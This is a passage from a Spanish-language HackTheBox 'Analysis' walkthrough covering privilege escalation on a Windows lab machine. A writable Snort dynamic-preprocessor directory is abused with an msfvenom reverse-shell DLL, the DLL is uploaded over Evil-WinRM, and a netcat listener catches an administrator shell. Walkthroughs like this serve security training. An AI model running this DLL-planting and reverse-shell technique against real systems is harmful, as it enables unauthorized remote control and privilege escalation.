10*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
11analysis\jdoeY podemos leer la flag de usuario
1*Evil-WinRM* PS C:\Users\jdoe\Desktop> type user.txt
26c60ab7f059622a5...Privilege Escalation
En la raíz del sistema vemos dos archivos interesantes.
Un log de Snort
y un mensaje encriptado
1*Evil-WinRM* PS C:\private> type encoded.txt
2-----BEGIN ENCODED MESSAGE-----
3Version: BCTextEncoder Utility v. 1.03.2.1
4
5wy4ECQMCq0jPQTxt+3BgTzQTBPQFbt5KnV7LgBq6vcKWtbdKAf59hbw0KGN9lBIK
60kcBSYXfHU2s7xsWA3pCtjthI0lge3SyLOMw9T81CPqT3HOIKkh3SVcO9jdrxfwu
7pHnjX+5HyybuBwIQwGprgyWdGnyv3mfcQQ==
8=a7bc
9-----END ENCODED MESSAGE-----Analizando mas a fondo la configuración de snort C:\Snort\etc\snort.conf podemos ver esta línea.
1$ cat snort.conf | grep dynamicpreprocessor
2dynamicpreprocessor directory C:\Snort\lib\snort_dynamicpreprocessorMirando la documentación
Tells snort to load the dynamic preprocessor shared library (if file is used) or all dynamic preprocessor shared libraries (if directory is used)
Por lo cual, cuando snort se ejecuta, carga todos los archivos .dll dentro de ese directorio.
También, en el directorio C:\Snort\log podemos ver que se están creando logs cada dos minutos, por lo que podemos deducir que hay una tarea que cada dos minutos se ejecuta por detrás.

Ahora solo hace falta comprobar si tenemos permisos para crear archivos en C:\Snort\lib\snort_dynamicpreprocessor
1*Evil-WinRM* PS C:\Snort\lib> icacls snort_dynamicpre*
2snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
3 BUILTIN\Administrateurs:(I)(OI)(CI)(F)
4 BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
5 BUILTIN\Utilisateurs:(I)(CI)(AD)
6 BUILTIN\Utilisateurs:(I)(CI)(WD)
7 CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)
8
9Successfully processed 1 files; Failed processing 0 filesVemos que el grupo Utilisateurs puede escribir WD -> Write Data y AP -> Append Data añadir datos y nosotros pertenecemos a este grupo, lo podemos comprobar con whoami /groups
Ahora que tenemos el vector de ataque claro..
Podemos probar a crear un archivo .dll malicioso.
1$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -a x64 -o shell.dll
2[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
3No encoder specified, outputting raw payload
4Payload size: 460 bytes
5Final size of dll file: 9216 bytes
6Saved as: shell.dllY a subirlo en este directorio.
1*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> upload shell.dll
2
3Info: Uploading /home/pointedsec/Desktop/analysis/content/shell.dll to C:\Snort\lib\snort_dynamicpreprocessor\shell.dll
4
5Data: 12288 bytes of 12288 bytes copied
6
7Info: Upload successful!Después de esperar un rato..
1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 54068
4Microsoft Windows [Version 10.0.17763.5329]
5(c) 2018 Microsoft Corporation. All rights reserved.
6
7C:\Windows\system32>whoami
8whoami
9analysis\administrateurPodemos ver la flag de root
1C:\Users\Administrateur\Desktop>type root.txt
2type root.txt
3749dd2480737c7...¡Y ya estaría!
Happy Hacking! 🚀
#HackTheBox #Analysis #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #RCE #Exploit #Windows #DNS Bruteforce #Enumerating HTTP #LDAP Injection #Python Scripting #Scripting #Information Leakage #Credentials Reuse #Web Shell #Autologon Credentials #Enumerating Snort Service #Abusing Dynamicpreprocessor #Creating Malicious DLL #Privilege Escalation